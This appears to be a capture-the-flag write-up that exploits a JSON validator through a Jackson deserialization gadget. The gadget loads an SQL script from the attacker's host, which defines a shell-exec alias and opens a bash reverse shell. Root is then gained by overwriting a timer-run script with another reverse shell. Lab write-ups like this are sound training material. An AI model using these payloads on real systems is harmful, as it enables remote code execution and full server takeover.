



    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    
## User

On port 80 we find a webpage with a json beautifier & validator here:



Searching a bit we found a nice [CVE](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html) and explanation.
This told us what we can use at the web page:
```js
["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;INIT=RUNSCRIPT FROM 'http://10.10.14.53:1234/inject.sql'"}]
```

But first set up a `inject.sql` like:
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
    String[] command = {"bash", "-c", cmd};
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.53/1235 0>&1')
```

Now you can run 

-   your http server to provide the ´inject.sql´; 
    
-   your listener to catch the shell
    
and put the payload into the input field using "Validate (beta)".


Now we got a shell as user `pericles`.


## Root

Let's run LinPEAS on that machine.

We found a nice script we own `/usr/bin/timer_backup.sh`:



This gets executed by system timer once a while, so we just need to put our reverse shell in there:
```bash
echo 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' > /usr/bin/timer_backup.sh
```

Just set up a listener and wait for your root shell...
